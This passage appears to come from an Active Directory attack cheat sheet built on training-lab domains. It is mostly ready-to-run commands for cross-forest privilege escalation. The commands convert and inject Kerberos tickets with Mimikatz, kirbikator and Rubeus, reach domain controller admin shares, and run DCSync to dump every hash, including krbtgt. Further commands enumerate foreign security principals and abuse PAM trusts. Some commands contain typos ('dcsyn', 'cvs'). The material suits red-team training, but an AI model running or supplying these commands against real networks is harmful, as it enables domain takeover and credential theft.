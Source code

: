 ```powershell
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi 
# Or
.\kirbikator.exe lsa .\CIFS.techcorp-dc.techcorp.local.kirbi
ls \\techcorp-dc.techcorp.local\c$
```

##### Rubeus

```powershell
# Create ticket and add it into the memory using asktgs
Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt

Rubeus.exe asktgs /ticket:sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

# can access the shares now
ls \\techcorp-dc.techcorp.local\c$
ls \\euvendor-dc.euvendor.local\c$
```

##### PowerShell

```powershell
# Access the euvendor-net machine using PSRemoting
# cmdlet
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor\net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

### Extras

##### To use the DCSync feature for getting krbtg hash execute the below command with DC privileges

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:garrison.castle.local /all /cvs"'
```

##### Get the `ForeignSecurityPrincipal`

```powershell
# These SIDs can access to the target domain
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

# We search it in our current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-...-1104"}
```

### PAM Trust

```powershell
# 1. Enumerating trusts and hunting for access [PowerView]
# We have DA access to the techcorp.local forest. By enumerating trusts and hunting for access, we can enumerate that we have Administrative access to the bastion.local forest.
Get-ADTrust -Filter * 
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local

# 2. Enumerate if there is a PAM trust [PowerView]
$bastiondc = New-PSSession bastion-dc.bastion.local 
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined - eq $False)}} -Session $bastiondc

# 3. Check which users are members of the Shadow Principals
```
